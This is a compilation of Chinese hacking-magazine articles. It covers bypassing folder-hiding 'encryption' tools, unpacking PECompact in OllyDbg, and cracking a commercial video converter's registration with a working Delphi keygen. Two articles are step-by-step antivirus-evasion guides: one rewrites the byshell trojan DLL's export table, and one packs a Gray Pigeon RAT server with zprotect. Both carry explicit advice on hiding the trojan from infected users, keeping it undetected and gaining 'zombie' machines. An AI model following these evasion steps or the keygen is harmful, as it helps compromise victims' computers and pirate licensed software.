本文在介绍输入表免杀方法时可能会有遗漏或不详之处，还希望大家批评指正。学习免杀是枯燥的，让木马在杀毒软件监视下悄悄运行也是很快乐的。在掌握这些基础方法后，大家就需要学好汇编语言，发掘那些高级免杀方法了。本文小部分资料来自网络搜集，所以网络也是我们最好的教材。希望大家努力学习，在这方面有所突破。

（文章中涉及到的 C32、LoadPE、OD、ImportREC，已经收录在了光盘中）

## 移动加密软件的破解

神秘园

大家都曾经使用过加密软件来保护自己的隐私数据吧。前些日子我帮一位朋友成功破解出了移动硬盘中的加密数据，发现这类加密软件并不像作者宣称的那样“速度快、坚不可破”，恰恰相反，它们的安全性非常令人担忧。在此写出来和大家交流一下。

我那位朋友使用的是一款名为“移动加密”的软件，其运行后的程序主界面如图1所示，而关于该软件的使用帮助信息如图2所示。

我先使用这个软件给几个大文件进行了加密，加密速度非常快。看来这个软件不是静态算法加密的，这样破解的希望就大多了。加密后，文件变成了 `desktop.ini` 和 `Thumbs.dn` 这两个属性为隐藏的文件，如图3、图4。由此可以判断，这个软件是通过将需要加密的文件放入文件夹 `Thumbs.dn`，再更改 `Thumbs.dn` 文件夹的“类标识符”，使系统把它认为是打印机，从而实现加密、隐藏文件的目的。

### 一、使用 WinRAR 的浏览功能破解

对于这种加密方式，我们使用第三方文件浏览器就可以看到文件夹里的内容了，比如 Total Commander、WinRAR 等。这里使用 WinRAR 的文件浏览功能就可以清楚查看到内容。

> 小提示：什么是类标识符  
> 在 Windows 中，每个系统级应用程序（比如“我的电脑”“计划任务”以及这个加密软件利用的“打印机和传真”等）都有一个唯一标识符。当我们双击某个文件夹时（比如双击“打印机和传真”），操作系统会首先检查该文件夹文件名，并到注册表中搜索这个标识符所注册的应用程序类型，最后再打开相应应用程序，或使用该应用程序打开该文件（这就是为什么我们双击“Thumbs.dn”文件夹时，打开的却是“打印机和传真”的控制面板）。在操作系统与真实文件夹之间起承接作用的这些数字就被称为“类标识符”。  
> 这个“类标识符”的真正名字叫“Windows 文件标识符”，英文名称为“CLSID”。平时保存在注册表 `HKEY_LOCAL_MACHINE\Software\Classes\CLSID` 键值下，通常由 32 个十六进制数构成，其格式一般为 `{八位数-四位数-四位数-四位数-十二位数}`，如图6。Windows 的“类标识符”并不仅仅表示像“我的电脑”这样的系统级应用程序，许多注册过的文件后缀也都会拥有自己的“类标识符”，比如 `{00020C01-0000-0000-C000-000000000046}` 代表 WAV 音频文件，而 `{00020811-0000-0000-C000-000000000046}` 则代表 Excel 的图表文件。但有一点可以确定：所有“类标识符”在一个 Windows 系统中都是唯一的。

所以使用“类标识符”对文件夹进行加密的原理是这样的：当我们双击 Windows 中的某一个文件夹时，系统会首先检查该文件夹的文件名（或其下的 desktop.ini 文件），如果这个文件名在注册表中被注册为某个系统程序的“类标识符”的话，那么 Windows 就会按照这个系统程序的要求打开该文件夹，这样保存在文件夹里的文件也就神不知鬼不觉“消失”了，自然也就达到了我们伪装文件夹的目的。

好了，我们返回到文章主题上来，经过验证，在图5中显示的 1.mem、2.mem、3.mem、4.mem 就是我们刚才加密的四个文件，直接使用 Ctrl+C、Ctrl+V 就可以将文件复制出来，并且把文件改回原来的后缀名就可以正常使用了。至此，这个软件就被我们破解了，就是这么简单，真的不过如此！

### 二、巧妙替换密码文件破解

虽然通过上述方法可以将数据恢复出来，但恢复后文件的名称和扩展名都改变了，如果加密的文件、文件夹比较多，那么恢复后使用起来也不方便。还有没有更好的破解方法呢？通过实践，我又找出了另外一种方法。

由图5中可以看出，Thumbs.db 文件夹里除了加密的文件外，还有 desktop.ini、117789687LIST.mem、117789687 这三个文件。desktop.ini 是用来将文件夹 CLSID 定义为“{2227a280-3aea-1069-a2de-08002b30309d}”，即“打印机和传真”，起到隐藏目的；而 117789687LIST.mem 和 117789687 应该是与我们输入的加密密码有关。经过验证，117789687 文件里保存的是加密密码，117789687LIST.mem 记录的是加密文件夹的目录结构。

使用记事本打开 117789687 文件，发现保存的不是明文。继续探索发现该文件可以改写，我们可以把这个文件替换掉，替换成我们已知密码的文件，这样问题就迎刃而解了。

具体操作如下：再来加密一个文件夹，当然这个加密的密码是我们已经知道的，使用这个加密文件夹里的 117789687 文件去替换我们需要解密（忘记密码）的文件夹里的相应文件。这样就可以使用已知密码“正常”解密，而且解密出来的文件夹目录结构、名字、扩展名也可同加密前一致，不会有任何变化（如图8）。


不喜欢使用 Cmd 的朋友还可以将图5中的 desktop.ini 文件删除或者移到别的地方，这样 Thumbs.db 文件夹也就露出了原形，如图9。我们就可以使用系统自带的文件浏览器来替换 117789687 文件了，如图10。


### 三、对另一个加密软件的新收获

我又找了几种类似的加密软件，发现也是大同小异，解密的过程都差不多，在这里就不再赘述了。

# 神秘园


图11


图12


图13


图14

为什么会这样呢？我在 Cmd 下建了几个带点的文件夹研究了一下，发现了以下几个有趣的现象。

| 命令 | 结果 |
|---|---|
| `D:\md·a\` | D 盘根目录下出现了文件夹 a。 |
| `D:\md·a..\` | D 盘根目录下出现了文件夹 a.。 |
| `D:\md·a...\` | D 盘根目录下出现了文件夹 a..。 |

看来 Windows 会将文件夹后的第一个点过滤掉，这样也就解释了“system..”文件夹不能被打开、删除、重命名的问题，因为它实际的路径是“D:\movie\DirRecycler\system...” 。

通过对“文件夹看门狗”的资源管理器中名字变化过程的分析，我们有了新的收获。该软件运行后的主界面如图11所示。加密后生成了 DirRecycler 文件夹（图12），软件将加密内容放入其中，并更改其类标识符为回收站来实现隐藏。

我们直接使用 WinRAR 删除 DirRecycler 文件夹中的 desktop.ini 文件并恢复其默认页面，再替换密码文件“(djp2006).mem”就可以实现解密（图13）。

很明显，上图中的“system.”（后面有个点）存放的应该就是加密文件，但该文件不能打开、删除、重命名。查看属性可见大小与占用空间都为 0（图14、图15）。


图15

当我们尝试打开“D:\movie\DirRecycler\system..”时，Windows 实际尝试打开的是“D:\movie\DirRecycler\system.”，因此会报错，且无法删除与重命名。


图16

在明白原因后，我们可以使用 Cmd 来打开它（图16）。加密文件夹可以直接复制出来，也不需要密码。若要删除此类文件夹，需要先清空其内容，再在 Cmd 下使用 `rd` 命令删除路径。

这种隐藏文件的方法也提醒我们：木马或病毒也可能利用类似目录增强隐藏效果，甚至可多建几级目录来增加清理难度。

### 四、总结

通过本文可见，这类“移动加密”软件主要是对文件夹进行名称方式的隐藏，并未对数据做实质加密处理，因此破解并不困难。重要数据不应依赖此类软件。

> （文中涉及到的移动加密以及文件夹看门狗，已经收录在了光盘中）

## 免杀之重写输出表

yxy

在最近几期的杂志上，提到了如何改动输出表来躲过杀毒软件对木马的查杀，但这些改动都是对输出表的局部改动。面对越来越变态的杀毒软件，仅仅这样的改动有时并不能从根本上杜绝查杀，所以本文尝试通过重写输出表从结构上进行变化。

我们以著名的驱动级木马 byshell 的 dll 文件为例，先查看输出表 RVA 和大小等信息，再进行后续修改。

- 1. DWORD Characteristics：未使用，总为 0
- 2. DWORD TimeDateStamp：文件生成时间
- 3. WORD MajorVersion：主版本号，一般为 0
- 4. WORD MinorVersion：次版本号，一般为 0
- 5. DWORD Name：模块中的真实名称
- 6. DWORD Base：基数
- 7. DWORD NumberOfFunctions：函数地址数组元素个数
- 8. DWORD NumberOfNames：函数名指针数组元素个数
- 9. DWORD AddressOfFunctions：函数地址数组 RVA
- 10. DWORD AddressOfNames：函数名指针地址 RVA
- 11. DWORD AddressOfNameOrdinals：导出序号数组 RVA

```
IMAGE_EXPORT_DIRECTORY, *PIMAGE_EXPORT_DIRECTORY
```


因为后面要在 C32 中进行修改，所以要把 RVA 值换算成文件偏移值。根据区段起始 RVA 与起始文件偏移可计算出输出表在文件中的实际位置。

| Name | VOffset | VSize | ROffset | RSize |
|---|---:|---:|---:|---:|
| .text | 00001000 | ... | 00001000 | ... |
| .rdata | 00016000 | ... | 00016000 | ... |
| .data | 0001B000 | ... | 0001B000 | ... |


接下来我们对其进行整体移动，在移动前先简单罗列输出表结构，以便理解。

```
IMAGE_EXPORT_DIRECTORY {
```

我们可以看出，在输出表结构中共 40 个字节。将整个输出表复制到 .data 区段末尾附近（需预留空间），示例复制到 0001C150 处。


现在开始逐项修改，例如（5）DWORD Name 的值由旧地址改为新地址（按小端序写入），对应图5。


第二处修改是：（9）DWORD AddressOfFunctions（其值是 0001AB58），因为它指向函数的地址值是 0001C178，所以我们要将其修改为 0001C178。这里大家一定要注意，修改值前后都一样只是个巧合而已，我再强调一下计算方法：修改值=文件偏移=起始文件偏移+起始的 RVA 偏移。这里按照公式计算就是“0001C178-Roffset(0001B000)+Voffset0001B000=0001C178”，如图7，更改后如图8所示，记住要以倒序的形式来写入。


第三处修改是：（10）DWORD AddressOfNames（其值是 0001AB64），它指向函数名字的 RVA 地址 0001C184，如图9，我们按照上面的方法换算后再把它更改为 0001C184，如图10。


第四处修改的是函数名称的 RVA 地址（这里一共有三个函数，分别是 DownCtrlAltDel、GetDllModuleControl、StartServer，它们原来的 RVA 值分别是 0001AB82、0001AB91、0001ABA5），修改后的 RVA 值分别是 0001C1A2、0001C1B1、0001C1C5，需要修改的有三处地方，分别如图11、图12、图13所示。好了，现在开始写入新的 RVA 值，如图14，注意是以倒序的形式来写入。


第五处修改的是：（11）DWORD AddressOfNameOrdinals，它指向输出序号数组，RVA 值为 0001AB70，我们把它修改为新的名称地址（RVA 值为 0001C190），大家来看一下，图……


第六处返回到原来的导出表位置，把它填充掉。这样，C32Asm 中的修改就已经完成了。最后我们再来修改导出表的 RVA 为新的 0001C150，也就是上文提到的 .data 区段的末尾处。使用 LordPE 打开 DLL 文件，来到目录表的导出表 RVA 处，修改原来的 RVA“0001AB30”为新的 RVA“0001C150”，保存即可，如图17。我们来测试一下看是否能上线，成功地上线了，如图18。


本文中我们特别需要注意的是，这次选择的 DLL 文件巧合了，它的 Voffset 和 Roffset 是一样的，所以转换的结果也是一样的。如果是其它的 DLL 文件，一定要逐个换算。文章到这里就结束了，最后希望 X 的叉子们肉鸡多多！

> （文章中涉及到的 DLL 文件和 Byshell 文件，已经收录在了光盘中）


## 免杀就是这么简单！

对于刚接触黑客知识的小菜们来说，免杀是一个非常遥远的话题，他们毫不怀疑地会说，以自己的水平和能力，很难把一个木马进行免杀。那么今天，我就要告诉这些小菜们——免杀其实非常简单！相信大家在仔细阅读了本文之后，就会明白我为什么要这么说了。

### 一、工具的准备

- 1. 灰鸽子：灰鸽子是国内一款非常著名的木马程序，可以说是国内木马的集大成者，其丰富而又强大的功能、灵活多变的操作、良好的隐藏性等等，使得其在木马远控程序中都相形见绌。当使用在合法情况下时，灰鸽子是一款优秀的远程控制软件，但如果拿它来做一些非法的事，那灰鸽子就成了很强大的黑客工具。
- 2. zprotect：Zprotect 是新一代的软件加密保护程序，拥有多项革命性的创新技术，以保护我们的软件产品不被破解，减少由于盗版而带来的经济损失。此外，Zprotect 还拥有简单易用的许可控制系统，我们无需更改任何代码，就可以为软件添加注册机制。与使用传统软件保护系统相比，Zprotect 更注重对于代码的处理，并且拥有良好的稳定性和兼容性，是进行软件保护时的最佳选择！


图1


图2

我们继续，在安装选项中，大家请尽量按照图3中的样子来进行填写，但不必严格遵循，最好尽量少选这些东西，否则免杀会不成功的，因为杀毒软件的云安全会根据我们选择的这些附加代码而更容易地检测出你的木马。安装路径是无所谓的，但最好不要安装在系统目录下，因为大部分人在查毒时只检查重要目录，而其余目录不会进行查杀。我因为是演示，所以就随便找了个目录安装。

### 二、开始

本文我就介绍如何使用 zprotect 软件保护工具来将一个木马进行免杀，其实也就是将这个程序的代码进行加密、保护起来，并不是真正意义上的免杀，但只要能过杀毒软件的查杀，对我们来说，目的也就达到了。我使用了灰鸽子 VIP2007 来给大家进行演示，因为这款木马程序在小菜中的使用率非常高，以它为例来进行介绍，可以让大家更加轻松地学到知识！

#### 1、鸽子服务端的配置

首先我们运行灰鸽子并配置一个服务端程序，相信这个过程大家都是轻车熟路了吧，如图1。当然我们也不能随便配置，按照原来的套路是不可取的，随便配置的结果只有一个，就是免杀无任何效果。

在自动上线的 IP 输入框中填写你的 IP 地址或域名（不建议使用 IP 地址，最好是使用动态域名），如图2。其它的设置根据自己的情况进行填写就可以了，因为它们对于灰鸽子的免杀并没有什么影响，不会因为设置的问题而造成免杀的失败。


图3

下面的几个选项，我要详细介绍一下。第一个：“服务端安装成功后弹出安装成功提示”，这个选项肯定不能选择，虽然不会有杀毒软件会因此而报警，但该选项不符合木马隐蔽运行的原则，如果真的弹出了提示，笨蛋都会知道系统有问题的！第二个：“服务端安装成功后自动删除安装文件”，所谓删除后更有利于千寻后台不被杀毒软件查到木马的源文件。第三个：“服务端启动后在桌面任务栏显示图标”，显示图标没有什么实际的作用，为了隐蔽和安全，当然是不显示。第四个：“服务端启动后开启中文聊天记录功能”，这项建议大家不要选择，因为它会导致一些专门查杀这类功能的杀毒软件报毒。

接下来也是比较关键的了，在启动项中有两个选项。

- 1、Win98/2000/XP 下写入注册表启动，建议选择该选项，这个选项不会引起行为监测类杀毒软件的报毒。
- 2、Win2000/XP 下优先安装成服务启动，建议不要选择，因为它会引起 360 安全卫士等安全软件的启动项增加提示。

选择了上面这两个选项，很可能会导致免杀失败，除非有特别的需要，否则最好是不要选择！其余选项中的内容均无关紧要，大家可以根据自己对肉鸡的需要来进行设置。

选中“区段名称”选项，并且随机设置一个加密码，不同的加密码会对我们的木马产生不同的保护，今天使用这个加密码制作的免杀如果被发现了，明天我们就可以更换另一种加密码来让这个程序依旧免杀，如图6。再选中“加密调用代码”，这样系统就会自动帮你加密灰鸽子里的调用代码、加密调用代码的 Call 指令，如图7。现在我们免杀的第一步就完成了！


图5

#### 2、免杀开始

首先，我们运行 zprotect 1.4.9.0，其界面如图4所示。对于这款软件，大家一定都很陌生吧。点击“打开”按钮，选择已经配置好的灰鸽子服务端程序，如图5。如果不是类似图5这样的，那么有可能你的灰鸽子在配置上有问题，注意这些加密标记都应该为 0。


图4


图7

好了，我们继续进行下一步的操作，点击左边的“常规选项”，进去之后会看到一群密密麻麻的选项、设置。我们把这些都抛开不管，就看常规设置这一块儿，我们就是在这里面做一些手脚，好让它不受杀毒软件的坚决查杀。取消“加密导入表”选项，至于原因，我就告诉大家：输入表是 PE 文件的必要组成部分，用于引导 PE 文件导入所需的 API 函数。加密输入表可以在一定程度上防止破解者还原导入函数的功能。


图6

我们再来选择“加密设置”中的“高级选项”，在“反函数钩子”中，程序会将选定的 DLL 代码移动到随机的地址运行，以防止被挂钩。我们只要选择“启用”，同时选择“使用默认配置”，这样模块 kernel32.dll、user32.dll、ntdll.dll 就会被默认反挂钩了，如图8。在“VISO 保护模块”中，


图8

选择“启用”，并且点击“重新分析”，如图9。现在免杀处理的第二步也就结束了。我们所有关于免杀要做的配置也都完成了，开始准备生成加密后的（也就是免杀的）灰鸽子服务端了，成功就在我们的眼前！


来到最激动人心的一步了，我们选择“应用保护”中的“立即保护”，点击“保护”按钮，如图10。稍等一下，就会看到如图11所示的界面，这就表明，我们对程序的保护，也就是对灰鸽子的免杀已经正式结束了。


#### 3、最后测试效果

我们来检测一下免杀的效果如何。使用金山毒霸2009对已经免杀的灰鸽子作一次检测，实时监控没有任何反应，如图12；病毒扫描也没有提示发现病毒，如图13。哈哈，我们的免杀真的很成功，金山杀毒软件已经无视了我们的木马，不做任何反应了！肉鸡上线也没有问题，功能上也没有任何缺失。不过，千万不要把这个已经做过免杀的灰鸽子上传到杀毒网上，否则做好的免杀灰鸽子也会再度被查毒软件查杀的！

为了测试效果，我在杀毒网上使用各大杀毒软件进行了一次检测，结果很不错，只有极少的几款杀毒软件会报警。而且更令人兴奋的是，所有国内有名的杀毒软件皆查不到任何病毒。怎么样，另类的免杀比特征码定位免杀的效果要好很多倍吧！

（文章中涉及到的 zprotect，已经收录在了光盘中）


破解本身除了一种游戏外，更是一种技巧性很强的运动，有点儿太极拳的味道——以柔克刚，四两拨千斤！

# 神秘园

PECompact 壳是一款比较老的压缩壳，本文的目的就是通过这款老壳来介绍一下常见脱壳方法在实际使用时的灵活运用，防止个人习惯将我们禁锢，这是一个相当重要的问题！下面，我们以 PECompact 2.x -> Jeremy Collake 加壳的 cmd.exe 为示例程序来进行介绍。

## 一、单步跟踪法PK结构化异常处理

将加壳程序载入到 OD 中，入口特征如图1所示。壳先安装了 SEH 异常处理程序，然后通过“mov dword ptr ds:[eax],ecx”指令访问 0x00000000 内存地址空间，引发 0xc0000005 异常，从而实现反调试。


我们不妨想象一下 SEH 异常处理应用于反调试的基本方法。第一种方法是先判断程序在调试器中，然后制造异常，通过调用异常回调函数实现反调试。第二种方法是不管在不在调试器中都制造异常，然后对 EXCEPTION_RECORD 中记录的异常地址处的指令进行修改，使程序继续执行。第一种方法有一个致命的缺陷——存在条件分支，只要存在条件分支，我们就可以通过修改跳转指令来改变程序执行流程；第二种方法虽然没有第一种方法中的缺点，但是却给了我们单步跟踪的机会。显然这款壳使用了第二种方法，不管在不在调试器中都会引发异常。

SEH 结构化异常用于 Anti-debug，最关键的地方在于回调函数中对 CONTEXT 结构的修改。不管如何修改，程序总要向下执行；要想执行的话，要么是将异常指令修改为正常，要么就是将 EIP 的内容修改为正常指令处。不管怎么说，检测 CONTEXT 结构中的 EIP 寄存器内容都有利于我们跟踪程序。因此一般来说，我们在 OD 菜单栏的“选项”——“调试选项”中将内存访问异常忽略。

直接按 F8 单步执行到引发异常处，按 Shift+F7 进入系统领空，如图2。继续按 F8 单步执行到 7C92E473 处的“call ntdll.ZwContinue”指令处，按 F7 跟进 ZwContinue 函数，进入到如图3所示的界面 call 代码处。按 F8 来到 7C92D04A 处的第二层“call dword ptr ds:[edx]”时，按 F7 跟进，进入后会发现如下几条指令：

```asm
7C92E4F0  8BD4          mov edx,esp
7C92E4F2  0F34          sysenter
7C92E4F4  C3            retn
```

sysenter 指的是进入 ring0 中，这时虽然表示着追踪的结束，但结束也往往代表着新的开始。按 F8 执行到 retn 指令，自动返回到程序领空中。

```asm
4AD81F03  8BAA0CD83A     mov eax,3AD80CAA
4AD81F08  648F05 00000000 pop dword ptr fs:[0]
4AD81F0F  83C404          add esp,4
4AD81F12  55              push ebp
4AD81F13  53              push ebx
4AD81F14  51              push ecx
4AD81F15  57              push edi
4AD81F16  56              push esi
4AD81F17  52              push edx
```

执行到这里向上翻，就会看到如图4所示的代码，对照图1正好是 SEH 异常处理程序的地址。仔细分析代码，恰好是对异常发生处的指令进行修改，最明显的是 4AD81EF5 处的“mov byte ptr ds:[edx],0E9”，因为 E9 是 jmp 跳转指令的机器码。这时候再返回异常发生处查看指令已进行修改，如图5。到这里就算是走过了 SEH 反调试的代码。


这里之所以要按 F7 跟进 ZwContinue 函数，是因为加壳程序在此按 F8 时会跑飞。如果我们直接按 Alt+F9 返回程序领空，执行 4AD81F03 处的 mov 指令时还会引发二次异常。对于 SEH 异常处理用于 Anti-debug 的程序，我们的原则就是不妨碍程序向下跟踪：一方面对于一些有 SEH 暗桩或者加 SEH 花指令的程序，我们可以使用“躲”的方法将异常指令直接 nop 掉；另一方面对于那些靠 SEH 异常回调函数延反跟踪的程序，要学会使用 F8 单步跟踪，这需要一定的技巧！

## 二、灵活使用ESP定律

在上面的过程里，我们停在了 4AD81F03。参照一中的反汇编指令，程序首先将“fs:[0]”进行了还原。“FS:[0]”指向 TEB（进程环境控制块）结构，这是在 ring3 下的结构，它的第一个成员为 EXCEPTION_REGISTRATION 的地址。SEH 异常处理的机制是通过栈中的链表结构实现的，链表中成员的添加与删除都是通过修改“FS:[0]”实现的。

对于这部分，我们要活用 ESP 定律。上面只能算是一个小插曲。ESP 定律的本质是堆栈平衡不假，但我更乐意称它为地址守恒定律。计算机作为一种信息处理工具，其中的信息需要载体，而载体指的就是存储器。整个信息在不同载体上的流动中，守恒的应该是内存地址……

很多教程给我们的习惯是，看到 pushad 往往意味着 ESP 定律的可行性。pushad 指令和程序中的如下代码其实是一个意思：

```asm
4AD81F12  55        push ebp
4AD81F13  53        push ebx
4AD81F14  51        push ecx
4AD81F15  57        push edi
4AD81F16  56        push esi
4AD81F17  52        push edx
```

按 F8 单步执行到 4AD81F18，就相当于执行了类似 pushad 的指令。这时候我们在 OD 命令处输入“hr esp”下硬件访问断点，按 F9 运行程序，程序停在如下代码处：

```asm
4AD81F9D  5E        pop esi
4AD81F9E  5F        pop edi
4AD81F9F  59        pop ecx
4AD81FA0  5B        pop ebx
4AD81FA1  5D        pop ebp
4AD81FA2  FFE0      jmp eax
```

在“调试”——“硬件断点”中删除刚才下的断点，单步执行到 OEP，如图6。上面的指令中 EAX 保存的就是 OEP。再来看一下 OEP 的地址，恰好是“FS:[0]”中下面保存的数据……这种现象就被称作惯性思维！


## 三、灵活使用内存镜像法

内存镜像法在脱壳中也是经常用到的。我们知道 PE 文件有很多节，这是与 Intel 保护模式下的分段机制相适应的。壳加密完 PE 文件后，在执行时一般会先解码资源段，然后再解码 .text 段，所以我们可以使用这种方法，通过在不同的位置下断点，从而找到 OEP。

将程序重新载入到 OD 中，按 Alt+M 打开内存镜像，在 .rsrc 段上按 F2 下“int 3”断点……程序就会返回到如下代码处：

```asm
4AD81EF5  C602E9      mov byte ptr ds:[edx],0E9
4AD81EF8  83C205      add edx,5
4AD81EFB  2BCA        sub ecx,edx
4AD81EFD  894AFC      mov dword ptr ds:[edx-4],ecx
4AD81F00  33C0        xor eax,eax
4AD81F02  C3          retn
```


按 F8 跟踪一段指令后，程序就会再次异常退出，因此不能死板地使用教程中所说的方法……根本不可能走向正常的解码分支中。

正确的做法就是按 F8 执行完图7中的指令到“4AD81F02 retn”处，再按 Alt+M，在 .text 段上按 F2 下“int 3”断点，程序就会执行到如下代码处：

```asm
4AD0505C  E9A2CE0700  jmp cmd.4AD81F03
4AD05061  6F          outs dx,dword ptr es:[edi]
4AD05062  6D          ins dword ptr es:[edi],dx
4AD05063  7061        jo short cmd.4AD050C6
```

正好是异常产生同时也是异常修正后的地址。按 F8 单步执行到二中所描述 ESP 定律产生的代码处，这时我们再使用 ESP 定律或者按 F8 单步跟踪就能走向 OEP 了。

从图中可以看出就几个函数，我们随便拿出一个 API 函数基本上都可以到达 OEP。以 VirtualAlloc 函数为例，将程序载入到 OD 中，在 OD 命令处输入“bp VirtualAlloc”，按 F2 取消断点，按 Alt+F9 返回程序领空，然后按 F8 单步，不一会儿就能走到 OEP 处了。

## 四、IAT加密与API断点

虽然 PECompact 是款老壳，但它的功能还是有优秀的闪光点的，至少对 IAT 进行了加密处理。如果我们正在写壳，可以通过逆向分析它的功能实现来给自己增加一种思路。如下指令处就是 IAT 解密的函数处：`4AD81F7E  FFD7  call edi`。在很多动画及文字脱壳教程中，总会有一些特殊的 API 断点，这些断点都是由分析者通过分析壳的特点得出来的。对下 API 断点首先我们需要理解以下两点：

- API 断点一般下的是“int 3”断点，也就是 0xCC。它是通过调试器修改断点地址处的指令；当 CPU 执行时进入中断处理器，从而断下程序。有些程序比如某些程序的 debug 版，因为没有执行 cl.exe 编译器的代码优化过程，所以经常碰到 bp 下断而无法断下程序的现象。
- 对于 IAT 加密的壳来说，我们最好是通过分析它的输入表来查看关键的 API 函数，以辅助我们对壳进行分析。以 PECompact 为例，将加壳后的程序使用 LordPE 载入，单击“目录”→“导入表”，查看相关的 API 函数信息，如图8。

当然因为这个壳实在是太简单了，所以我们可以轻易地随便下一个 API 断点就能找到 OEP。不过正是因为简单，才能给像我这样的菜鸟以启发。在脱穿山甲壳的时候，只看那一个个的 API 断点就能雷倒不少小菜了。其实那些断点也是像我们这样分析壳找出来的，不要害怕。

### 五、总结

- PECompact 最大的特点就是 IAT 加密和 SEH 反调试。正是因为 IAT 加密，才使得我们能轻易地通过一个 API 断点脱掉它。对于压缩壳来说，一个更简单的方法就是通过 LordPE 查看其调用的 API 函数，然后下断。对于 SEH 反调试来说，一定注意不要按 F8 执行“call ZwContinue”指令，因为那样程序就会跑飞，要学会善于使用 F7 和 F8。
- 通过上面的描述，基本上有如下几种方法可以搞定 PECompact：
  - 单步跟踪 + ESP 定律
  - 内存镜像 + ESP 定律
  - VirtualAlloc 等 API 断点


图8

本文并没有什么太高深的技术含量，目的只是想告诉大家一个常识——知识要活学活用，不要让习惯禁锢了自己的大脑。有些习惯是好的，但是只要是好习惯在某些时候总会变成坏习惯。所以不管学知识还是做人，都不要有啥习惯，所谓变者通天下！

> （文章中涉及到的 OD、LordPE，已收录在了光盘中）


学习破解有一段时间了，但是一直都停留在爆破和内存截取注册码阶段。在看雪上看到了某牛人写的一篇算法分析的文章，于是就想自己实现一下。按照文章中所说的方法进行调试，发现软件已经将注册算法改变了，下面我们就一起来分析一下这个算法，再使用 Delphi 编程来实现注册机编写。

用到的工具为 OllyICE 和 PEID。首先安装完软件后使用 PEID 查看软件是否加壳，结果如图1所示。我们的运气很好，程序并没有加壳，而且是使用 Delphi 编写的。既然如此，那我们就“以彼之道还施彼身”，一会儿也使用 Delphi 来编写它的注册机。

### 第一部分：算法分析

我们要破解的目标软件为 Cute FLV Video Converter，使用……

运行程序进行注册，注册信息随意填写，得到了如图2所示的注册错误信息。关闭程序，打开 OD 加载程序，先看能不能找到注册失败的信息字符，可以使用 OD 的字符串查找插件进行查看，如图3。稍等片刻，OD 就会把程序中出现的所有字符串信息显示出来。

在字符串窗口中找找看，有没有上面的注册失败信息。如图4所示，注册失败信息出现的位置在 0050C75D，上面一条就是注册成功的信息。双击注册失败信息，来到了反汇编窗口。在反汇编窗口中一直向上找，找到这个函数的头部，然后按 F2 下断点。

函数头部如图5所示，在 0050C68C 下断后按 F9 运行程序，然后再进行注册，点击注册后程序就会被断在我们设置的断点处。按 F8 单步调试，当程序运行到 0050C6CE 处时，在堆栈中发现了注册名信息，如图6。


继续按 F8 调试，在下面不远的 0050C6E7 处出现了我们输入的注册码信息，如图7。按照经验来看，在取得注册名和注册码后，程序就应该调用注册码算法来计算真的注册码了。继续向下按 F8 调试，发现了一个跳转指令“0050C701 je short 0050C752”是跳向注册失败的，那么我们就要注意这条跳转指令前面的 call 调用了。


# 神秘园

如图8所示，在跳转指令的前面发现了两个 call，分别按 F7 跟进这两个 call 进行分析，分析后的结果为 0050C6FA 就是算法的 call。因为前面那个 call 没有发现对注册名进行运算的指令和算法。既然已经找到了注册算法的位置，那么接下来就是将算法还原了。还原算法就要读汇编代码了，这一直是初学者比较头疼的问题。其实也可以使用 IDA 的 F5 功能来将反汇编代码翻译成伪 C 代码，这样就比较容易理解了……

分析研究完毕了。后面的一些指令是对我们之前输入的注册码进行位数判断，以及将真正注册码转化为十进制后与输入的注册码进行比较，这里就不一一分析了……这个程序的算法比较简单，基本上就是一些加减乘除的运算。算法共分为三个部分：
- 逐位累加
- 乘法运算
- 加法运算


图8

进入算法 call 后进行 F8 分析。当按 F8 路过 0050C4EF 处后，发现 EAX 的值变为了注册名长度的十六进制；路过 0050C506 后 EAX 变成了注册码长度的十六进制，代码如图9所示。可以看出这是在判断输入的注册名和注册码是否为空……继续按 F8 调试，在 0050C513 处再次获取注册名长度进行判断，之后就进入了注册算法，如图10。


图9


图10

0050C51C 到 0050C52B 是一个循环，是将注册名的 ASCII 码十六进制逐位累加，然后指令“imul eax, ebx, 7B7”将累加结果乘以十六进制数 7B7，再将结果赋给 eax，最后执行指令“add eax, 48A6”，把 eax 中的结果加十六进制数 48A6，结果存在 eax 中。这个结果就是真正注册码的十六进制数值。

## 第二部分：注册机编写

有了算法我们就可以编写注册机了，使用什么编程语言都可以。下面就使用我比较喜欢的 Delphi 来编写。首先是设计一个窗体，添加控件，如图11。


图11

然后双击“计算”按钮来编写注册算法，核心代码如下：

```delphi
var
  name:string;
  i,len,int,sum:integer;
begin
  name:=edt1.text; //取注册名信息
  len:=length(name); //计算注册名长度
  SUM:=0;
  for i:=1 to len do //逐位累加注册名（十进制）
  begin
    int:=ord(name[i]);
    sum:=int+sum;
  end;
  edt2.text:=inttostr(sum*1975+18598); //乘以7B7再加上48A6的十进制数
end;
```

代码是不是很简单呢？其实编写注册机并不是很难的。

完整的代码请参见光盘。整个破解到这里就结束了，在这个软件的官方网站上还发现了其他几个软件，与这个都属于一个系列的产品，算法也有类似的地方，大家可以拿来试试。通过不断的练习，相信你也一定能够写出属于自己的注册机。

> （文章中涉及到的 Cute FLV Video Converter、OllyICE、PEiD 以及注册机程序，已经收录在了光盘中）

## 注：像那代码无处可逃

木木


Crackme 是爱好破解的小菜们经常玩的游戏，它的玩法有很多，从初级的爆破、追码，再到进一步的算法分析、编写注册机，可以说整个过程就是一个自我提高、不断进步的过程。整个过程都需要我们将动手和动脑结合起来，动手是为了积累经验，而动脑才能将理论知识加以总结并转化为自己的智慧。总之一句话，要想有进步，就得天天练！


好了，我们返回到与本文相关的话题吧。玩过 crackme 的小菜都知道，最关键的部分就是定位保护代码，说简单一点就是找到所谓的关键 call 和关键跳。如果这一步做不到，破解也就无从谈起。如何在密密麻麻的代码森林里找到关键 call 和关键跳呢？这也就是本文的重点。其实并没有什么高深之处，只不过是小菜们都应该掌握的 OD 的一些基本用法而已。

实际上使用超级字符串可以定位出保护代码的，都是最简单的 crackme 程序。小菜们如果想进步，那么就得学会高手的方法，而真正的高手都是使用断点来解决问题的。好了，这次我们就用另一个 crackme 来试验。第一步还是来收集信息：打开这个 crackme，用户名填写 sss，注册码填写 123，点击注册，出现了对话框，并给出了提示信息“Try harder”，如图3所示。既然有提示信息，小菜们当然是拿出他们屡试不爽的超级武器——“超级字符串参考”了，但结果马上就让他们郁闷了，因为 OD 提示他们查找的字符串没有找到，如图4。


### 一、超级字符串参考

